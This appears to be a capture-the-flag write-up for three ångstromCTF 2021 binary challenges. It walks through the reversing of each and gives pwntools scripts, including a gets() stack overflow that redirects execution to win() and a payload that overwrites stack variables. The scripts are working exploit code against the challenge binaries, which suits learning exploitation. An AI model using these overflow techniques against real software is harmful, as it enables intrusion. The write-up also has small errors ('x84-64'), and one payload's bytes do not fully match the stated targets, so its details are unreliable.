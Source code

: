 ### ångstromCTF 2021 - FREE FLAGS!!1!! (50 points)

The file is a 64-bit x84-64 ELF executable. Use Ghidra to analyze the content. I renamed some variable names to make the program more readable. 

[actf-p3-1]

In order to get the flag, we need to make

```
input1 = 0x7a69
input2 + input3 = 0x476, input2 * input3 = 0x49f59 
input4 = "banana"
```

Now we can write the exploit as follows. Note that the first scanf() takes "%d" as the parameter, so we need to input 0x7a69 in the decimal format, i.e., 31337. To get the possible answers of the input2 and input3, we can use some online calculators such as http://gadget.chienwen.net/x/math/solveeq to solve the quadratic equation. We then input 419 (input2) and 723 (input3) to bypass the check. Lastly, send the string "banana" to make the input4 equals to the target string. 

```python
import pwn 
proc = pwn.process("./free_flags")
proc.read()
proc.sendline("31337")      
proc.read()
proc.sendline("419 723")
proc.read()
proc.sendline("banana")
proc.read()
```

Here is the flag.

[actf-p3]



### ångstromCTF 2021 - tranquil (70 points)

The file is a 64-bit x84-64 ELF executable. The function `win()` open the file `flag.txt` and read the content for us. So our goal is to force the program execute the `win()` function. The main function calls the function ` vuln()`. However, there is a `gets()` function, which may cause stack overflow, in the `vuln()`. Let's use radare2 to figure out how many bytes should we cover to exploit the stack and control the flow. As you can see, we need to cover 0x40 + 8 (rbp size), and overwrite the return address as 0x401196. So the exploit is as follows. 

[actf-p1-1]

[actf-p1-2]

```python
import pwn 
proc = pwn.process("./tranquil")
proc.read()
payload = b"a" * (0x40 + 8) + pwn.p64(0x401196, endian='little')
proc.sendline(payload)
proc.read()
```

[actf-p1]



### ångstromCTF 2021 - Sanity Checks (80 points)

The file is a 64-bit x84-64 ELF executable. Use Ghidra to analyze the content. To bypass the check, we can create a craft stack with the `gets()` function to make the variables equal to their target values. 

[actf-p2-1]

[actf-p2-2]

So let's use radare2 to figure out the addresses of the variables. As you can see, [rbp-0x60] should be overwritten as "password123", [rbp-0x4] should be overwritten as 0x32, [rbp-0x8] should be overwritten as 0x37, [rbp-0xc] should be overwritten as 0xf5, [rbp-0x10] should be overwritten as 0x3d. 

[actf-p2-3]

[actf-p2-4]

```python
import pwn 
proc = pwn.process("./checks")
proc.read()
pw = "password123"
payload = pw + "\x00" * (0x4c - len(pw)) + ("\x11\x00\x00\x00\x3d\x00\x00\x00\xf5\x00\x00\x00\x37\x00\x00\x00\x32\x00\x00\x00")
proc.sendline(payload)
proc.read()
```

Here is the flag. 

[actf-p2]